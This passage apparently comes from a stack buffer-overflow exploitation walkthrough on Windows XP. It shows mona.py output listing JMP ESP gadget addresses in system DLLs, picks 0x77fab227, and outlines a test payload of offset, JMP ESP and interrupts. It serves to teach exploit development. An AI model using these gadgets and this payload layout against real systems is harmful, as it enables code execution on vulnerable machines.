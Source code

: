 ```
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   [+] Writing results to find.txt
0BADF00D       - Number of pointers of type '"\xFF\xE4"' : 2304
0BADF00D   [+] Results :
77FAB227     0x77fab227 : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [SHLWAPI.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v6.00.2900.5512 (C:\WINDOWS\system32\SHLWAPI.dll)
77E8560A     0x77e8560a : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [RPCRT4.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\RPCRT4.dll)
77E9025B     0x77e9025b : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [RPCRT4.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\RPCRT4.dll)
004114C6     0x004114c6 : "\xFF\xE4" | startnull {PAGE_EXECUTE_READ}
7CBD41FB     0x7cbd41fb : "\xFF\xE4" |  {PAGE_WRITECOPY} [SHELL32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v6.00.2900.5512 (C:\WINDOWS\system32\SHELL32.dll)
7C86467B     0x7c86467b : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\kernel32.dll)
004E4862     0x004e4862 : "\xFF\xE4" | startnull,asciiprint,ascii,alphanum {PAGE_READONLY}
004E4CC2     0x004e4cc2 : "\xFF\xE4" | startnull {PAGE_READONLY}
004E5462     0x004e5462 : "\xFF\xE4" | startnull,asciiprint,ascii,alphanum {PAGE_READONLY}
004E5862     0x004e5862 : "\xFF\xE4" | startnull,asciiprint,ascii,alphanum {PAGE_READONLY}
004E5972     0x004e5972 : "\xFF\xE4" | startnull,asciiprint,ascii,alphanum {PAGE_READONLY}
004E5FD2     0x004e5fd2 : "\xFF\xE4" | startnull {PAGE_READONLY}
662EB24F     0x662eb24f : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [hnetcfg.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\hnetcfg.dll)
77E4CDE9     0x77e4cde9 : "\xFF\xE4" |  {PAGE_READONLY} [ADVAPI32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\ADVAPI32.dll)
77E5D1C6     0x77e5d1c6 : "\xFF\xE4" |  {PAGE_READONLY} [ADVAPI32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\ADVAPI32.dll)
77F31D2F     0x77f31d2f : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [GDI32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\GDI32.dll)
662F8EAB     0x662f8eab : "\xFF\xE4" |  {PAGE_READONLY} [hnetcfg.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\hnetcfg.dll)
662FB5A7     0x662fb5a7 : "\xFF\xE4" |  {PAGE_READONLY} [hnetcfg.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\hnetcfg.dll)
7E429353     0x7e429353 : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [USER32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\USER32.dll)
7E4456F7     0x7e4456f7 : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [USER32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\USER32.dll)
0BADF00D   ... Please wait while I'm processing all remaining results and writing everything to file...
0BADF00D   [+] Done. Only the first 20 pointers are shown here. For more pointers, open find.txt...
0BADF00D       Found a total of 2304 pointers
0BADF00D
0BADF00D   [+] This mona.py action took 0:00:01.562000
```
In this instance, there are loads of instructions I could use. The top address will do nicely: `0x77fab227`.  
I send over a test payload:  
[OFFSET][JMP ESP][INTERRUPTS]
